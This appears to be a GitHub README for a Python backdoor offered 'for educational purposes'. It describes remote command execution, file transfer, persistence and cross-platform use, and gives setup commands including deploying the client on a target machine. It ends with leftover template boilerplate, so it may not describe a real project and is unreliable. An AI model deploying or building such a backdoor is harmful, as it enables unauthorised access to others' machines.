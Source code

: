 # Backdoor

A simple backdoor implementation for educational purposes.

## Features

- **Basic Commands:** Execute basic system commands remotely.
- **File Upload/Download:** Transfer files between the target machine and the attacker.
- **Persistence:** Maintain access to the target machine even after reboots.
- **Cross-Platform:** Works on Windows, Linux, and macOS.

## Getting Started

### Prerequisites

- Python 3.x
- Pip (Python package installer)

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/Pra-kas/Backdoor.git
   cd Backdoor
Install dependencies:


pip install -r requirements.txt

Usage
Start the server:

python server.py
Deploy the backdoor on the target machine:


python client.py --target <TARGET_IP> --port <PORT>
Interact with the backdoor using the server.

Contributing
Contributions are welcome! Please follow our contribution guidelines.

License
This project is licensed under the MIT License - see the LICENSE file for details.

Acknowledgments

Socket Programming in Python
Argparse Tutorial

Feel free to customize the content further based on your project's specific details. Replace `<TARGET_IP>` and `<PORT>` with the appropriate values for your Backdoor project. If you have specific contributing guidelines, code of conduct, or other documents, consider linking to them or including them in the repository.
